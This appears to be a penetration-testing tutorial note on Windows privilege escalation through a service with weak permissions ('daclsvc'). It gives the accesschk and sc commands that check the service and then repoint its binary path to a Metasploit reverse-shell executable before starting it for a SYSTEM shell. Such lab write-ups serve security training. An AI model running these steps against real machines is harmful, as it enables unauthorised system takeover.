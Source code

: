 # Insecure Permission

Each service has an ACL which defines certain service-specific permissions. Some permissions are innocuous (e.g. SERVICE\_QUERY\_CONFIG, SERVICE\_QUERY\_STATUS). Some may be useful (e.g. SERVICE\_STOP, SERVICE\_START). Some are dangerous (e.g. SERVICE\_CHANGE\_CONFIG, SERVICE\_ALL\_ACCESS)

**If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.**

Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges! unless the user you have access to can reboot the system and the service would automatically run on startup

we use winPEAS to find services with insecure permissions

![](<../../../../.gitbook/assets/image (82) (1).png>)

![](<../../../../.gitbook/assets/image (98).png>)

Note that we can modify the “daclsvc” service.

We can confirm this with accesschk.exe:

```
 .\accesschk.exe /accepteula -uwcqv user daclsvc
```

![](<../../../../.gitbook/assets/image (92) (1).png>)

Check the current configuration of the service:

```
sc qc daclsvc
```

![](<../../../../.gitbook/assets/image (72).png>)

demand start means the service has to started manually he binary pathname is also available the service has no dependencies and it also should run with the system user permissions

Check the current status of the service:

```
​sc query daclsvc
```

![](<../../../../.gitbook/assets/image (93).png>)

the service is stopped

since we can change the service configs the easiest way to exploit this is to set the binary path to the location of a reverse shell payload

create a reverse shell with metasploit and place it in a directory where you have read/write permission

then Reconfigure the service to use our reverse shell executable:

```
sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
```

![](<../../../../.gitbook/assets/image (85) (1).png>)

Start a listener on Kali, and then start the service to trigger the exploit:

```
net start daclsvc
```

![](<../../../../.gitbook/assets/image (84) (1).png>)
